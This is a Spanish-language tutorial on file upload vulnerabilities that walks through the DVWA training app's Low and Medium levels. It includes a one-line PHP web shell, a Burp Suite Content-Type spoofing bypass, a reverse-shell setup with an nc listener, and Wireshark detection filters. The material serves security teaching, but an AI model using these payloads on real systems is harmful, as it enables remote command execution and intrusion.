## Esquema  de las fases de un vulnerabilidad file upload:
Un esquema de las fases de una vulnerabilidad de carga de archivos (file upload) puede proporcionar una visión clara de cómo se pueden explotar estas vulnerabilidades y qué pasos siguen los atacantes:
- Identificación de la vulnerabilidad:
  - Descubrimiento: El atacante encuentra un formulario o servicio en la aplicación web que permite la carga de archivos.
  - Análisis: Se analiza el mecanismo de carga para identificar limitaciones o controles de seguridad, como filtros de tipos de archivos o validaciones de contenido.
- Evaluación y preparación:
  - Pruebas de límites: El atacante intenta cargar diferentes tipos de archivos (ejecutables, scripts, etc.) para ver cuáles son aceptados.
  - Creación de payloads: Basado en las pruebas, el atacante prepara archivos maliciosos diseñados para ejecutar código, obtener acceso no autorizado, o para otros fines malintencionados.
- Explotación:
  - Carga del payload: El atacante carga el archivo malicioso a través del mecanismo de carga identificado.
  - Ejecución: Buscan maneras de ejecutar el archivo malicioso. Esto puede implicar manipular la aplicación web para acceder al archivo o esperar a que un usuario o proceso desencadene su ejecución.
- Post-explotación:
  - Escala de privilegios: Una vez que el código malicioso se ha ejecutado, el atacante puede buscar escalar privilegios dentro del sistema o la red.
  - Persistencia: Intentan asegurar su acceso a largo plazo al sistema comprometido mediante la creación de puertas traseras, cuentas de usuario maliciosas, etc.
  - Exfiltración de datos: Pueden buscar robar datos sensibles del sistema o red comprometida.
  - Movimiento lateral: Exploran la red en busca de otros sistemas vulnerables para comprometer.
- Mitigación y respuesta:
  - Detección: Los sistemas de monitoreo y los equipos de seguridad detectan la actividad maliciosa.
  - Análisis: Se analiza el ataque para entender cómo se comprometió el sistema y cuál fue el alcance.
  - Remediación: Se eliminan los elementos maliciosos, se cierran las vulnerabilidades explotadas y se restauran los sistemas afectados a un estado seguro.
  - Mejora de la seguridad: Se revisan y mejoran las políticas, controles y herramientas de seguridad para prevenir futuros ataques similares.


## File Upload puede usarse para
La funcionalidad de carga de archivos en un sitio web puede ser aprovechada para varios tipos de ataques informáticos, entre ellos:
- Ataques al servidor: Si el servidor es capaz de interpretar y ejecutar código de programación como PHP, ASP o JSP, entonces podría ser vulnerable a la carga de archivos maliciosos. Por ejemplo, un atacante podría subir un archivo que actúe como una puerta trasera, permitiéndole ejecutar comandos directamente en el servidor.

- Denegación de Servicio (DoS): Si no hay un control adecuado sobre el tamaño de los archivos que se pueden subir, un atacante podría saturar el almacenamiento del servidor subiendo archivos extremadamente grandes, lo que podría hacer que el servidor deje de funcionar correctamente y se niegue el servicio a los usuarios legítimos.

- Ataques dirigidos a los usuarios del sitio: Subiendo archivos específicos, un atacante podría modificar el comportamiento de la página web para ejecutar scripts maliciosos (ataques XSS) cuando otros usuarios visiten la página, o incluso alterar el contenido de la página web (defacement) para engañar a los usuarios y realizar phishing.

- Provocación de errores en sistemas relacionados: La carga de archivos especialmente diseñados podría causar errores o comportamientos inesperados en otros sistemas que interactúen con el servidor, explotando vulnerabilidades indirectamente.

- Carga de contenido inapropiado o malicioso: Además de los ataques directos a la infraestructura o a los usuarios, la carga de archivos puede ser utilizada para subir y distribuir contenido ilegal o dañino, como malware, contenido para adultos sin autorización o software pirata, lo cual podría tener implicaciones legales y de reputación para el propietario del sitio web.

## Categorización de File Upload Vulnerabilities
La CWE asociada a esta vulnerabilidad es CWE-434: Unrestricted Upload of File with Dangerous Type, recogida en OWASP Top 10 en la categoría A04: Insecure Design.

El CWE-434 abarca situaciones en las que una aplicación acepta archivos cargados sin validar o restringir adecuadamente los tipos de archivos permitidos. Esto puede resultar en la carga y potencial ejecución de archivos maliciosos, poniendo en riesgo la seguridad del sistema. Las medidas de mitigación para esta clase de vulnerabilidad incluyen la validación estricta del tipo de archivo, la verificación del contenido del archivo, y la implementación de políticas de seguridad adecuadas para el manejo de archivos cargados.


## DVWA File Upload - View Help
- About:
  - Uploaded files represent a significant risk to web applications. The first step in many attacks is to get some code to the system to be attacked. Then the attacker only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

  - The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system, forwarding attacks to backend systems, and simple defacement. It depends on what the application does with the uploaded file, including where it is stored.

- Objective: Execute any PHP function of your choosing on the target system (such as phpinfo() or system()) thanks to this file upload vulnerability.

- Low Level:
  - Low level will not check the contents of the file being uploaded in any way. It relies only on trust.
  - Spoiler: Upload any valid PHP file with command in it.

- Medium Level:
  - When using the medium level, it will check the reported file type from the client when its being uploaded.
  - Spoiler: Worth looking for any restrictions within any "hidden" form fields.

- High Level:
  - Once the file has been received from the client, the server will try to resize any image that was included in the request.
  - Spoiler: need to link in another vulnerability, such as file inclusion.

- Impossible Level: This will check everything from all the levels so far, as well then to re-encode the image. This will make a new image, therefor stripping any "non-image" code (including metadata).


## DVWA File Upload - Level Low - View Source

```
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

Subiremos un fichero llamado shell.php con el código:
```
<?php system($_GET['cmd']);?>
```
system(): Es una función de PHP que se utiliza para ejecutar comandos del sistema operativo externo y mostrar la salida directamente. Esta función es muy poderosa y puede ejecutar prácticamente cualquier comando disponible en el sistema operativo del servidor donde se aloja la aplicación web.

$_GET['cmd']: Esto recoge un valor enviado a través del método GET en la URL. Por ejemplo, si la URL es http://example.com/script.php?cmd=whoami, el valor de $_GET['cmd'] sería whoami, y ese comando se ejecutaría en el servidor a través de la función system().







## DVWA File Upload - Level Medium - View Source
```
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```
Para saltar esa validación vamos a manipular el Tipo MIME. El código verifica el tipo de archivo usando la variable $_FILES['uploaded']['type'], la cual depende del tipo MIME reportado por el navegador. Sin embargo, este valor puede ser fácilmente manipulado en el lado del cliente o mediante herramientas como Burp Suite, lo que podría permitirte subir un archivo con un tipo MIME inadecuado fingiendo ser un tipo aceptado.

### Tipo MIME:
El "Tipo MIME" (Multipurpose Internet Mail Extensions) es un estándar que indica la naturaleza y el formato de un documento, archivo o conjunto de datos. Fue originalmente diseñado para extender las capacidades del correo electrónico para permitir el envío de archivos en formatos distintos al texto ASCII (como archivos binarios, imágenes, video, y audio), pero su uso se ha expandido a muchas otras aplicaciones en Internet, incluyendo navegadores web y servidores web.
- Estructura: Un tipo MIME se compone de dos partes principales, separadas por una barra diagonal (/):
  - Tipo: Indica la categoría general del archivo. Algunos ejemplos comunes incluyen text, image, application, y audio.
  - Subtipo: Especifica el formato específico del archivo dentro de su categoría general. Por ejemplo, para el tipo image, los subtipos pueden incluir jpeg, png, y gif.

- Usos y Aplicaciones: Los tipos MIME tienen múltiples aplicaciones en la web y la tecnología de información:
  - Correo Electrónico: Permiten a los clientes de correo electrónico identificar y manejar diferentes formatos de archivos adjuntos.
  - Navegadores Web: Utilizan tipos MIME para determinar cómo procesar o mostrar diferentes archivos o contenidos descargados. Por ejemplo, al recibir un documento con el tipo MIME text/html, el navegador sabe que debe renderizarlo como una página web.
  - Servidores Web: Envían el tipo MIME de un archivo en las cabeceras HTTP para informar al navegador sobre cómo manejar el archivo. Esto es crucial para archivos que pueden ser interpretados de diferentes maneras (como con JavaScript, CSS, o HTML).
  - APIs y Desarrollo Web: En el desarrollo web y APIs, los tipos MIME se utilizan para especificar el formato de los datos enviados y recibidos, como application/json para JSON o application/xml para XML.

- Importancia en la Seguridad Web: En el contexto de la seguridad web, comprender y manejar correctamente los tipos MIME es esencial para prevenir ciertos tipos de ataques, como los ataques de carga de archivos maliciosos. Al validar los tipos MIME de los archivos subidos, los desarrolladores pueden restringir los tipos de archivos que se pueden cargar a una aplicación, reduciendo el riesgo de ejecución de código malicioso.


En la interfaz de Burp Suite, buscaremos la solicitud de carga de archivos interceptada. Veremos algo similar a lo siguiente en el cuerpo de la solicitud:
```
------WebKitFormBoundary72AeOYpNW12rCOb9
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/x-php
```
Cambiamos esta línea por el tipo MIME que deseamos simular:
```
Content-Type: image/jpeg
```





### Una shell para probar:
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
Parámetros que hay que cambiar:
```
$ip = 'ipAtacante';  // CHANGE THIS
$port = puertoEscucha;       // CHANGE THIS
```
Para tomar la shell reversa:
```
nc -lnvp puertoEscucha
```


### Escuchando con Wireshark un ataque File Upload Vulnerabilities
Filtros Wireshark:
```
http.request.method == "POST"
http.content_type contains "image/jpeg"
http contains "image"
(http.request or tls.handshake.type eq 1) and !(ssdp)
```







Subimos una shell reversa php:


